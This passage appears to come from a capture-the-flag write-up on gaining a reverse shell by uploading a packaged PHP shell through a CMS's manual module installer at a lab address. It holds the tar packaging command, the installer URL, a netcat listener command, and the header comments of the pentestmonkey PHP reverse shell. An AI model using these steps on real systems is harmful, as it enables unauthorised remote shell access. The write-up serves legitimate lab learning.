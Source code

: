![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593357/image_yjwu6i.png)

Make sure to extract it because the site wants a `.tar.gz`file not a `.zip`. I then deleted all the archives and then made a new one with the command below. Then uploaded the archive it creates. One glaring issue that I had at this point was that the `shell.php`file it creates won't have the correct information inside to actually get back to my machine. At this point this was fine because I just wanted to see if I could successfully upload a file before getting too invested.

`tar -cvzf shell.tar.gz shell/`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593360/image_cylcjl.png)

http://10.10.11.58/?q=admin/installer/manual

`nc -lvnp 4444`

![](https://res.cloudinary.com/djo6idowf/image/upload/v1752593363/image_vlxxrc.png)

I needed to do these steps again but with my own custom PHP shell in `shell.php`.

[](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
```